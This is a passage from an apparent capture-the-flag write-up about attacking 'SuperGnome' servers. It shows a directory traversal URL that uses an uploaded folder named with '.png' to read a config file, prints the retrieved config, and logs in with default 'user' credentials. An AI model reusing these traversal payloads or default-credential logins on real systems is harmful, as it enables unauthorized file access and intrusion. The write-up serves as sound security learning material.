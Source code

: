 After some testing, we find this directory traversal works to specifically reference a file anywhere we want (as long as “.png” exists in the string):

  * <http://52.34.3.80/cam?camera=../../../../gnome/www/public/images/1.png>

Next we pollute the filesystem with a folder name we control that contains “.png” using the very helpful “Settings” upload folder creation method we found earlier:

<img class=" wp-image-448 aligncenter" src="/images/2016/01/sg25.png" alt="sg25" width="472" height="150" srcset="/images/2016/01/sg25.png 642w, /images/2016/01/sg25-300x95.png 300w" sizes="(max-width: 472px) 100vw, 472px" />

Next we combine the directory traversal with our newly created folder:

  * <http://52.34.3.80/cam?camera=../../../../gnome/www/public/upload/busKZrfs/hacked.png/../../../../files/gnome.conf>

And with some luck, we are successful on our first attempt to retrieve the flag:

```
Gnome Serial Number: XKCD988
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
Allow new subordinates?: YES
Camera monitoring?: YES
Audio monitoring?: YES
Camera update rate: 60min
Gnome mode: SuperGnome
Gnome name: SG-02
Allow file uploads?: YES
Allowed file formats: .png
Allowed file size: 512kb
Files directory: /gnome/www/files/
```

**SG-03 Exploitation**
  
_Status: Successful_
  
Unfortunately for this SuperGnome, our “admin” credentials do not work. Instead I tried the “user” level credentials which were:

  * **Username**: user
  * **Password**: user

These credentials allowed us to login to the portal on the SuperGnome. Unfortunately, though this user has very few privileges so we cannot do much here.

I begin to look for other vectors, narrowing my focus on the authentication system now as we need to somehow become administrator.
